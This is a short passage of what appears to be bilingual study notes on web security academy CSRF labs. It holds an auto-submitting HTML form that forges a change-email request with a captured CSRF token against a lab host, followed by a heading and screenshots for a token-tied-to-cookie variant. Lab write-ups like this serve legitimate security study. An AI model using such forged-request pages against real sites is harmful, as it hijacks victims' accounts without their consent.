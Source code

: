 ```html
<form class="login-form" name="change-email-form" action="https://0a1f0069041a493c8490183900000068.web-security-academy.net/my-account/change-email" method="POST">
    <input  type="hidden" name="email" value="csrf@csrf.com">
    <input  type="hidden" name="csrf" value="HpO8XW0JwBa2av5w0WmZBAxnvYhbiAAZ">
</form>

<script>
    document.forms[0].submit();
</script>
```

## CSRF con token atado a cookie sin sesión || CSRF where token is tied to non-session cookie

![](/img2/Pasted%20image%2020250730222440.png)

> Para tener las dos sesiones iniciadas, es necesario usar dos navegadores distintos, ya que sino se estaría arrastrando la cookie de sesión.

![](/img2/Pasted%20image%2020250731121010.png)

![](/img2/Pasted%20image%2020250731121108.png)